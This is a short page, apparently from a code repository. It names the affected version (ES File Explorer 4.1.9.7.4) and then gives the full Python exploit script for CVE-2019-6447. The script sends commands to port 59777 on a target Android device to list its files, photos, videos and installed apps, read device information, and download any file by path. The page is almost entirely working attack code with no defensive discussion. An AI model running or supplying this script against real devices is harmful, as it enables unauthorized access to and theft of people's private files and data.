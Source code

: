 <languages />

影響版本
--------

Version: ES File Explorer v4.1.9.7.4

EXP
---

    # Exploit Title: ES File Explorer 4.1.9.7.4 - Arbitrary File Read
    # Date: 29/06/2021
    # Exploit Author: Nehal Zaman
    # Version: ES File Explorer v4.1.9.7.4
    # Tested on: Android
    # CVE : CVE-2019-6447

    import requests
    import json
    import ast
    import sys

    if len(sys.argv) < 3:
        print(f"USAGE {sys.argv[0]} <command> <IP> [file to download]")
        sys.exit(1)

    url = 'http://' + sys.argv[2] + ':59777'
    cmd = sys.argv[1]
    cmds = ['listFiles','listPics','listVideos','listAudios','listApps','listAppsSystem','listAppsPhone','listAppsSdcard','listAppsAll','getFile','getDeviceInfo']
    listCmds = cmds[:9]
    if cmd not in cmds:
        print("[-] WRONG COMMAND!")
        print("Available commands : ")
        print("  listFiles         : List all Files.")
        print("  listPics          : List all Pictures.")
        print("  listVideos        : List all videos.")
        print("  listAudios        : List all audios.")
        print("  listApps          : List Applications installed.")
        print("  listAppsSystem    : List System apps.")
        print("  listAppsPhone     : List Communication related apps.")
        print("  listAppsSdcard    : List apps on the SDCard.")
        print("  listAppsAll       : List all Application.")
        print("  getFile           : Download a file.")
        print("  getDeviceInfo     : Get device info.")
        sys.exit(1)

    print("\n==================================================================")
    print("|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |")
    print("|                Coded By : Nehal a.k.a PwnerSec                 |")
    print("==================================================================\n")

    header = {"Content-Type" : "application/json"}
    proxy = {"http":"http://127.0.0.1:8080", "https":"https://127.0.0.1:8080"}

    def httpPost(cmd):
        data = json.dumps({"command":cmd})
        response = requests.post(url, headers=header, data=data)
        return ast.literal_eval(response.text)

    def parse(text, keys):
        for dic in text:
            for key in keys:
                print(f"{key} : {dic[key]}")
            print('')

    def do_listing(cmd):
        response = httpPost(cmd)
        if len(response) == 0:
            keys = []
        else:
            keys = list(response[0].keys())
        parse(response, keys)

    if cmd in listCmds:
        do_listing(cmd)

    elif cmd == cmds[9]:
        if len(sys.argv) != 4:
            print("[+] Include file name to download.")
            sys.exit(1)
        elif sys.argv[3][0] != '/':
            print("[-] You need to provide full path of the file.")
            sys.exit(1)
        else:
            path = sys.argv[3]
            print("[+] Downloading file...")
            response = requests.get(url + path)
            with open('out.dat','wb') as wf:
                wf.write(response.content)
            print("[+] Done. Saved as `out.dat`.")

    elif cmd == cmds[10]:
        response = httpPost(cmd)
        keys = list(response.keys())
        for key in keys:
            print(f"{key} : {response[key]}")